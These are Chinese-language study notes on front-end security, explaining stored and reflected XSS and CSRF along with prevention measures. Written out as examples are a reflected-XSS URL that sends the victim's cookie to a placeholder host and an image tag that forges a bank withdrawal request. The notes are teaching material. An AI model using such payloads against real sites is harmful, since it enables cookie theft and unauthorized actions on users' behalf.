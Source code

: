 
## 前端安全

#### XSS攻击

XSS(Cross-Site Scripting): 跨站脚本攻击。它允许攻击者将恶意代码植入到用户使用的页面中。攻击目标是**为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息**。

XSS通常可以分为两大类：一类是**存储型XSS**，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是**反射型XSS**，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS的原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

> 比如: 访问有个网站http://127.0.0.1/?name=maoxiaoke会输出用户名字。如果恶意用户传递这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。

如何预防XSS

答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

+ 将用户所提供的内容进行过滤
+ 使用HTTP头指定类型

> [参考](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md)

#### CSRF攻击

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。

可以这样简单的理解：攻击者可以盗用你的登陆信息，以你的身份模拟发送各种请求。举个栗子，一家银行用于执行转账操作的URL地址如下: http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。一个恶意攻击者在另一个网站放置如下放置如下代码: `<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">`。如果有一个用户访问了这个恶意站点，而他之前刚访问过银行不久，登陆信息尚未过期。攻击者并不能通过CSRF攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是**欺骗用户浏览器，让其以用户的名义执行操作**。

从上图可以看出，要完成一次CSRF攻击，受害者必须依次完成两个步骤 ：

1.登录受信任网站A，并在本地生成Cookie 
2.在不退出A的情况下，访问危险网站B

如何预防CSRF攻击？

CSRF的防御可以从服务端和客户端两方面着手，防御效果是从服务端着手效果比较好，现在一般的CSRF防御也都在服务端进行。

服务端的预防CSRF攻击的方式方法有多种，但思想上都是差不多的，主要从以下2个方面入手：

1、正确使用GET,POST和Cookie
2、在非GET请求中增加伪随机数
  + 为每个用户生成一个唯一的cookie token，所有表单都包含同一个伪随机值
  + 每个请求使用验证码
  + 不同的表单包含一个不同的伪随机值

> [参考](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.1.md)

---

## 实现布局:左边一张图片，右边一段文字
